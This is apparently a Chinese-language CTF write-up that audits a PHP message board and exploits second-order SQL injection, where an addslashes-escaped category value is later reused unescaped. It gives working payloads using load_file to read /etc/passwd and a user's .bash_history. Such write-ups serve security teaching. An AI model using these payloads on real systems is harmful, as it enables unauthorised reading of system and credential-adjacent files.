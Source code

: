 ```php
else{
    header("Location: ./index.php");
}
?>

```

代码还是比较容易理解的，~~其实审了好久~~

分为两块内容

1. write

   category 、content  、bo_id 经过 addslashes 转义后写入到数据库的 board 表中

2. comment

   将 category 、content  、bo_id 写入到数据库的 comment 表中，不过在这一模块中只有 content  、bo_id是经过 addslashes 转义 的，而 category 则是从数据库的board表中读取我们在 write 模块中输入的内容，并没有经过 addslashes 转义



通过审计可以发现存在二次注入

因为comment模块的 category 是我们在write模块写入的内容，而comment 却只显示 content 内容 （要注意虽然category 是经过 addslashes 转义后写入数据库的，但是取出时是没有被转义的，即没有反斜杠的），我们正是利用这一点进行的二次注入，

```
write模块：title=1&category=',content=(select load_file('/etc/passwd')),/*&content=111
```

```
comment模块： $sql = "insert into comment
                set category = '',content=(select load_file('/etc/passwd')),/*',
                content = '*/#',
                bo_id = '$bo_id'";
```

注入原理如上  /**/是多行注释符   ， # 是单行注释符 

在提交留言的时候，提交`*/#`，这样就成功闭合了，而且将回显的内容放到了content（这里的content是 我们在write模块中写入的category中的content ）里，实现了注入。

~~经过漫长的爆库、报表、爆字段，结果发现flag不在数据库里...~~正确做法如下：

1.读取一下`/etx/passwd`  payload: `',content=(select load_file('/etc/passwd')),/*` 得到了www的用户目录。

![](http://img.npfs06.top/20210413232740.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



```
www:x:500:500:www:/home/www:/bin/bash
```



![](http://img.npfs06.top/20210413232830.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

我们可以看到 www用户可以登录bash，www为普通用户，家目录为/home/www



2. .bash_history文件保存了当前用户使用过的历史命令。我们读取下这个文件 payload :`‘,content=(select load_file(‘//home/www/.bash_history’)),/*` 看用户的**命令记录**
